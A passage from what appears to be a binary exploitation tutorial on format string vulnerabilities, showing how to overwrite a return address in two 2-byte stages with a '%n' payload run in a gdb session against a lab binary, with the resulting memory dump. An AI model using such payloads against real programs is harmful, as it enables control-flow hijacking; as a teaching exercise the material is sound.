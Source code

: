 You see that the program executes the main function a second time.

## Writing in several stages

Okay, in the previous subsection, I showed you how to overwrite the return address. But sometimes there are cases when we can't write desired address in one step. At this moment, it's time to write in several stages.

Let's overwrite the address as above, but with several stages.

Firstly, you need to understand how to specify the address at the beginning of the input string. If we want to overwrite the address in the several stages, we need to write by 2 bytes or by 1 byte at a time. For instance, consider that we want to write first to the address `0xffffcfdc`, but we can't do it in one step. Though we can write first to the address `0xffffcfdc` 2 bytes, then to the address `0xffffcfdc` + 0x2, but so, that we don't change the value of the previous 2 bytes. With 1 byte at a time writing there will be `0xffffcfdc`, `0xffffcfdc` + 0x1, `0xffffcfdc` + 0x2, `0xffffcfdc` + 0x3.

I will show you the 2 steps of writing. We need to write the value `0x080491b6`. So, the first value to write is `0x91b6`. The second is `0x0804`.

```bash
$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x91b6
37302
>>>
```


```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "%37298u" + "%6$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "%37298u" + "%6$n"')

gef➤  x/50wx $esp
0xffffcfdc:	0x000091b6	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x8da201d0	0xc94087c0
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd246	0xffffd28b
0xffffd07c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd08c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd09c:	0xffffd3a2	0xffffd3b8
gef➤  
```

So, we wrote the value `0x91b6`.
```bash
>>> 0x0804
2052
>>>
```

